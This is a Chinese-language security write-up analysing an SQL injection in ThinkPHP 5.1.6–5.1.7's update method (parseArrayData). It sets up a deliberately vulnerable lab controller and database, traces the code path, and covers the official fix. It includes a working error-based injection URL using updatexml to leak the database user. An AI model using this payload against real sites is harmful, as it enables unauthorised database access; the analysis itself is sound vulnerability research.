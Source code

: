 本系列文章将针对 **ThinkPHP** 的历史漏洞进行分析，今后爆出的所有 **ThinkPHP** 漏洞分析，也将更新于 [ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln) 项目上。本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **update** 方法注入）。

## 漏洞概要

本次漏洞存在于 **Mysql** 类的 **parseArrayData** 方法中由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL注入漏洞** 的产生。漏洞影响版本： **5.1.6<=ThinkPHP<=5.1.7** (非最新的 **5.1.8** 版本也可利用)。

## 漏洞环境

通过以下命令获取测试环境代码：

```bash
composer create-project --prefer-dist topthink/think tpdemo
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```json
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.7"
}
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username/a');
        db('users')->where(['id' => 1])->update(['username' => $username]);
        return 'Update success';
    }
}
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```sql
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'mochazz');
```

访问 **http://localhost:8000/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0** 链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1](ThinkPHP5漏洞分析之SQL注入2/1.png)

## 漏洞分析

![2](ThinkPHP5漏洞分析之SQL注入2/2.png)

首先在官方发布的 **5.1.9** 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 **commit** 记录，发现其删除了 **parseArrayData** 方法，这处 **case** 语句之前出现过 **insert** 注入，所以比较可疑。

![3](ThinkPHP5漏洞分析之SQL注入2/3.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先， **payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的 **payload** ），直接进入了 **Query** 类的 **update** 方法，该方法调用了 **Connection** 类的 **update** 方法，该方法又调用了 **$this->builder** 的 **insert** 方法，这里的 **$this->builder** 为 **\think\db\builder\Mysql** 类，该类继承于 **Builder** 类，代码如下：

![4](ThinkPHP5漏洞分析之SQL注入2/4.png)

在 **Builder** 类的 **update** 方法中，调用了 **parseData** 方法。这个方法中的 **case** 语句之前存在 **SQL注入漏洞** ，现已修复，然而却多了 **default** 代码段，而这段代码也是在新版本中被删除的。

![5](ThinkPHP5漏洞分析之SQL注入2/5.png)

我们跟进到 **parseArrayData** 方法，发现其中又将可控变量进行拼接，其变量来源均来自用户输入。之后的过程就和之前的 **insert** 注入一样，用 **str_replace** 将变量填充到 **SQL** 语句中，最终执行，导致 **SQL注入漏洞** 。

![6](ThinkPHP5漏洞分析之SQL注入2/6.png)

上面 **第15行** 的 **$result** 相当于 **$a('$b($c)')** 其中 **$a、$b、$c** 均可控。最后形成的 **SQL** 语句如下：

```sql
UPDATE `users`  SET `username` = $a('$b($c)')  WHERE  `id` = 1;
```

接着我们想办法闭合即可。我们令 **$a = updatexml(1,concat(0x7,user(),0x7e),1)^** 、 **$b = 0** 、 **$c = 1** ，即：

```sql
UPDATE `users` SET `username` = updatexml(1,concat(0x7,user(),0x7e),1)^('0(1)') WHERE `id` = 1
```

## 漏洞修复

官方修复方法比较暴力，直接将 **parseArrayData** 方法删除了。

![7](ThinkPHP5漏洞分析之SQL注入2/7.png)

## 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![8](ThinkPHP5漏洞分析之SQL注入2/8.png)
